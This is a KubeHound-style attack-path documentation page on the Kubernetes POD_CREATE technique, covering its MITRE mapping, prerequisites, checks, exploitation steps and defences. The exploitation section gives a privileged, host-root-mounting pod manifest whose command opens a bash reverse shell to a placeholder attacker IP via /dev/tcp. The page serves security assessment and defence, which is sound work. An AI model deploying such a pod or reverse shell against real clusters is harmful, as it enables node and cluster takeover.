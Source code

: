 ```yaml
---
title: POD_CREATE
---
```


<!--
id: POD_CREATE
name: "Create privileged pod"
mitreAttackTechnique: T1610 - Deploy Container
mitreAttackTactic: TA0002 - Execution
-->

# POD_CREATE

Create a pod with significant privilege (`CAP_SYSADMIN`, `hostPath=/`, etc) and schedule on a target node via setting the `nodeName` selector.

| Source                                        | Destination                 | MITRE                                                                                    |
| --------------------------------------------- | --------------------------- | ---------------------------------------------------------------------------------------- |
| [PermissionSet](../entities/permissionset.md) | [Node](../entities/node.md) | [Container Orchestration Job, T1053.007](https://attack.mitre.org/techniques/T1053/007/) |

## Details

Given the rights to create a new pod, an attacker can create a deliberately overprivileged pod within the cluster. This will grant the attacker full control over the node on which the pod is scheduled (via any number of container escape techniques). Additionally by setting the `nodeName` selector in the pod spec to the control plane node, the attacker can gain root access to the control plane node and take over the entire cluster!

## Prerequisites

A role granting permission to create pods.

## Checks

Check whether the current account has the ability to create pods, for example using kubectl:

```bash
kubectl auth can-i create pod
```

## Exploitation

Identify the name of the target (e.g control plane) node via:

```bash
kubectl get nodes -o wide --all-namespaces | grep control-plane
```

Create a pod spec for our attack pod (N.B. If your target node is a control plane one you may need to add a [toleration](https://kubernetes.io/docs/concepts/scheduling-eviction/taint-and-toleration/) to this manifest to allow it to be scheduled):

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: control-plane-attack
  labels:
    app: pentest
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: control-plane-attack
    image: ubuntu
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "bash -i >& /dev/tcp/<attacker_ip>/<attacker_port> 0>&1" ]
  nodeName: < TARGET NODE NAME > 
  volumes:
  - name: noderoot
    hostPath:
      path: /
```

Create the pod via kubectl:

```bash
kubebctl apply -f control-plane-pod-spec.yaml
```

## Defences

### Monitoring

+ Monitor for pod creation from within an existing pod 
+ Monitor privileged pod creation with suspicious command arguments

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with additional powerful capabilities.

## Calculation

+ [PodCreate](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/pod_create.go)

## References:

+ [The Path Less Traveled: Abusing Kubernetes Defaults (Video)](https://www.youtube.com/watch?v=HmoVSmTIOxM)
+ [The Path Less Traveled: Abusing Kubernetes Defaults (GitHub)](https://github.com/mauilion/blackhat-2019)
+ [Bad Pods](https://bishopfox.com/blog/kubernetes-pod-privilege-escalation#Pod1)
